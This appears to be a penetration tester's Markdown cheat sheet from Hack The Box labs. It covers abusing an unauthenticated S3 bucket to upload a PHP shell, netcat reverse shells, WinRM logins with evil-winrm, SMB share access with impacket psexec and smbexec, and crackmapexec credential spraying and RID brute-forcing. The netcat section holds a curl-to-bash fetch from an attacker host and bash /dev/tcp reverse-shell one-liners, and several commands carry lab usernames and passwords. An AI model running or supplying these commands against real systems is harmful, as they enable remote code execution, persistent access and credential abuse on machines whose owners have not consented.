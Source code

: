 ```toc
```

https://www.revshells.com/

### S3
- checking s3 instances for unauthenticated access
	- `aws configure` command, then set all values to temp
	- sometimes the server is configured to not check authentication (still, it must be configured to something for aws to work).
	- We can list all of the S3 buckets hosted by the server by using the `ls` command `aws --endpoint=http://s3.thetoppers.htb s3 ls`
	- We can also use the ls command to list objects and common prefixes under the specified bucket. `aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb`
	- copy files to s3 bucket using `cp` command `aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb`

### netcat 
- nc reverse shell
	- create sh script
	- start netcat listener on your device with `nc -nvlp PORT`
	- host this shell script using a web server with `python3 -m http.server 8000`
	- have your compromise machine reach out to your attacking machine for the script and run it `cmd=curl%20<ATTACKER_IP>:8000/shell.sh|bash`
```bash
#!/bin/bash
bash -i >& /dev/tcp/<ATTACKER_IP>/<nc_port> 0>&1
```

or run it right from prompt
```bash
bash -c "bash -i >& /dev/tcp/10.10.15.167/443 0>&1"
```

### WinRM
- port 5985
- evil-winrm
	- `evil-winrm -i 10.129.96.157 -u chase -p "Q4)sJu\Y8qz*A3?d"`
- cme to enumerate and test user/pass connection for winrm auth
	- `cme winrm 10.129.96.157 -u users.txt -p passwords.txt`



### SMB
- smbclient
	- list available shares with -L
		- `smbclient -L 10.129.220.145 -U administrator`
	- Connect to a share
		- `smbclient \\\\10.129.220.145\\ADMIN$ -U Administrator`
- impacket psexec.py
	- `python psexec.py username:password@hostIP
	- useful for if you enumerate open administrative shares or have access to these shares using creds
- impacket smbexec.py
	- `python smbexec.py Administrator@10.129.220.145
	- useful for if you enumerate open administrative shares or have access to these shares using creds
- crackmapexec
	- `cme smb 10.129.96.157 -u users.txt -p passwords.txt`
	- `cme smb 10.129.96.157 -u hazard -p stealth1agent --rid-brute` to brute force RID's and enumerate local user account names
- smbserver.py
	- host an smb server off your attacking endpoint 
		- `smbserver.py -smb2support -username guest -password guest share /root/Desktop`
		- mount this on your target (if windows) `net use x: \\10.10.14.177\share /user:guest guest`
